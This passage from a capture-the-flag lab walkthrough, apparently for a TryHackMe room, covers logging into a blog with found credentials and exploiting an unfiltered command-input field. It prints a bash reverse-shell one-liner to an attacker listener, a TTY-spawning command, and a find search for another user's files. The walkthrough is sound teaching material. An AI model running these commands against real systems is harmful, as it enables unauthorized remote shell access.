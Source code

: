 There is a `/login` directory, and as the note said, we need to get into the blog. I used the creds we just found (`bob:d1ff3r3ntP@55w0rd`), and logged in from the login page and faced this page:

<p align="center"><img src="./files/blog.png"></p>

## Reverse shell

The blog posts are just there to be there. Nothing useful in them, but the input field executes commands with no filter. I opened a listener (`rlwrap nc -lvnp 4444`) and executed a bash reverse shell:

~~~
bash -i >& /dev/tcp/<YOUR IP>/4444 0>&1
~~~

Then click on "here" and the shell will be executed. Now we have a shell as `www-data`. The first thing I did was spawning a TTY shell using a python one-liner:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/The_Blob_Blog/files]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.1.83] from (UNKNOWN) [10.10.45.106] 53758
bash: cannot set terminal process group (463): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bobloblaw-VirtualBox:~/html2$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@bobloblaw-VirtualBox:~/html2$ 
~~~

## www-data -> bobloblaw (lateral move)

If you list `/home`, you can see that there are two users: `bob` which we had access to his home directory from the FTP service and `bobloblaw` that we need to switch to.

Unfortunately, we don't have permission to enter to bobloblaw's home directory. I used `find` command to find the files owned by `bobloblaw` (Ignore the messages. We'll get to it later):

~~~
www-data@bobloblaw-VirtualBox:~$ find / -type f -user bobloblaw 2>/dev/null
You haven't rooted me yet? Jeez
You haven't rooted me yet? Jeez
You haven't rooted me yet? Jeez
/usr/bin/blogFeedback
~~~
